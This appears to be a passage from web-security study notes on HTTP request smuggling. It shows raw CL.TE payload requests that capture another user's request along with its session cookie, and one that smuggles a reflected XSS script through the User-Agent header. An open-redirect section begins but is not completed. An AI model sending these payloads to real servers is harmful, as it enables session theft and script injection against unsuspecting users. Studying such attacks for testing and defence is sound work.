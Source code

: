 ```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 198
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Cookie: session=dL3MaAvRhsnHdriaFnPxSdvXdt3jx6B1
Content-Length: 650

csrf=ihmEx8D&postId=1&name=test&email=test@test.test&comment=
```

### <mark style="color:yellow;">Exploit reflected XSS</mark>

<mark style="color:yellow;">**CL.TE**</mark>

You can use a request smuggling attack to target other users of the application. This method is better than standard reflected XSS because it doesn't require victim interaction and can exploit XSS in areas like HTTP headers, which are not possible to control in typical attacks.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

The next user's request is appended to the smuggled one, delivering the XSS payload in their response.

### <mark style="color:yellow;">Open redirect</mark> <a href="#using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect" id="using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect"></a>

<mark style="color:yellow;">**CL.TE**</mark>

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
